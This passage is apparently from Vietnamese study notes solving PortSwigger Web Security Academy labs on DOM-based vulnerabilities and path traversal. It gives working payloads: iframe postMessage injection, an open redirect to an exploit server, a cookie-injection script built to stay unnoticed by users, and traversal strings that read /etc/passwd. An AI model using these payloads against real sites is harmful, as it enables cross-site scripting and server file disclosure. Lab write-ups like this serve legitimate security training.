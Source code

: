 Context: `addEventListener` + message dạng JSON

Ở đây ta thấy có thêm điều kiện `type=load-channel` để có thể được gán `src` = `d.url`.

Payload: `<iframe src=https://0a9b004b04098a3c80aa857e0066000e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

## DOM-based open redirection

Context: sink `location.href`, parameter `url` sẽ chứa đường dẫn để turn back

Payload: `https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/`

Ta đặt `url` chuyển hướng về server exploit

## DOM-based cookie manipulation

Context: code tạo cookie phía client `lastViewedProduct` để lưu trang cuối cùng đã xem 

Nhưng giá trị này sẽ lấy tất cả path phía sau và không có filter, vì thế ta sẽ chèn `'` để thoát ra và chèn thêm mã js vào. 

Payload: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">`

Iframe này dẫn đến 1 bài post và có thêm mã js, sau đó cookie sẽ lưu lại, và cũng trong iframe này, sự kiện onload ngay lập tức đưa về trang chủ để cookie không bị sửa đổi cũng như người dùng không phát hiện. Và khi người dùng tải lại trang chủ mã sẽ thực thi tự động

# Path Traversal 

## File path traversal, traversal sequences blocked with absolute path bypass

Dùng đường dẫn tuyệt đối

Payload: `/etc/passwd`

## File path traversal, traversal sequences stripped non-recursively

Payload: `....//....//....//etc/passwd`

## File path traversal, traversal sequences stripped with superfluous URL-decode

URL encode

Payload: `..%252f..%252f..%252fetc/passwd`

## File path traversal, validation of start of path
